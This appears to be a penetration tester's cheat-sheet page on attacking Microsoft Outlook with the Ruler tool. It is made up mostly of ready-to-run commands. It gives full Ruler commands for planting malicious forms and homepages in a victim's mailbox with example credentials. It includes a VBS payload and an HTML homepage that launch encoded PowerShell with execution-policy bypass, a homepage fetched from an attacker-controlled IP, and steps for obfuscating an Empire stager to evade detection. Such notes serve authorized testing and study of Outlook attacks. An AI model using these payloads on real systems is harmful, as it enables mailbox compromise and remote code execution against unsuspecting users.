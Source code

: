 # Outlook




## Ruler

* [https://github.com/sensepost/ruler/releases](https://github.com/sensepost/ruler/releases)



### Rules

* [https://github.com/sensepost/ruler/wiki/Rules](https://github.com/sensepost/ruler/wiki/Rules)
* [https://silentbreaksecurity.com/malicious-outlook-rules/](https://silentbreaksecurity.com/malicious-outlook-rules/)



### Forms

* [https://github.com/sensepost/ruler/wiki/Forms](https://github.com/sensepost/ruler/wiki/Forms)
* [https://sensepost.com/blog/2017/outlook-forms-and-shells/](https://sensepost.com/blog/2017/outlook-forms-and-shells/)

Display forms:

```
$ ./ruler -k --nocache --url https://autodiscover.megacorp.com/autodiscover/autodiscover.xml -d megacorp.com -u 'snovvcrash' -p 'Passw0rd!' -e snovvcrash@megacorp.com --verbose --debug form display
```

Exploit:

```
$ ./ruler -k --nocache --url https://autodiscover.megacorp.com/autodiscover/autodiscover.xml -d megacorp.com -u 'snovvcrash' -p 'Passw0rd!' -e snovvcrash@megacorp.com --verbose --debug form add --suffix test-form --input vbs-payload.txt --send
```

`vbs-payload.txt`:

```
CreateObject("WScript.Shell").Run "powershell -exec bypass -enc <BASE64_CMD>", 0, false
```

Cleanup:

```
$ ./ruler -k --nocache --url https://autodiscover.megacorp.com/autodiscover/autodiscover.xml -d megacorp.com -u 'snovvcrash' -p 'Passw0rd!' -e snovvcrash@megacorp.com --verbose --debug form delete --suffix test-form
```

Empire stager encryption:

```
$ grep -e output_type -e payload_type -e clean_output -e userdomain genetic.config
    output_type = GO
    payload_type = DLL_x64
    clean_output = True
        userdomain = 'MEGACORP'
$ python ebowla.py https443.dll genetic.config
$ ./build_x64_go.sh output/go_symmetric_https443.dll.go https443.exe --hidden
```



### Homepage

* [https://github.com/sensepost/ruler/wiki/Homepage](https://github.com/sensepost/ruler/wiki/Homepage)
* [https://sensepost.com/blog/2017/outlook-home-page-another-ruler-vector/](https://sensepost.com/blog/2017/outlook-home-page-another-ruler-vector/)

Exploit:

```
$ ./ruler -k --nocache --url https://autodiscover.megacorp.com/autodiscover/autodiscover.xml -d megacorp.com -u 'snovvcrash' -p 'Passw0rd!' -e snovvcrash@megacorp.com --verbose --debug homepage add --url http://10.10.13.37/homepage.html
```

`homepage.html`:

```xml
<html>
<head>
<meta http-equiv="Content-Language" content="en-us">
<meta http-equiv="Content-Type" content="text/html; charset=windows-1252">
<title>Outlook</title>
<script id=clientEventHandlersVBS language=vbscript>
<!--
 Sub window_onload()
     Set Application = ViewCtl1.OutlookApplication
     Set cmd = Application.CreateObject("Wscript.Shell")
     cmd.Run("powershell -exec bypass -e <BASE64_CMD>")
 End Sub
-->

</script>
</head>

<body>
 <object classid="clsid:0006F063-0000-0000-C000-000000000046" id="ViewCtl1" data="" width="100%" height="100%"></object>
</body>
</html>
```

Cleanup:

```
$ ./ruler -k --nocache --url https://autodiscover.megacorp.com/autodiscover/autodiscover.xml -d megacorp.com -u 'snovvcrash' -p 'Passw0rd!' -e snovvcrash@megacorp.com --verbose --debug homepage delete
```

Stager encryption is the same as for Ruler/Forms.
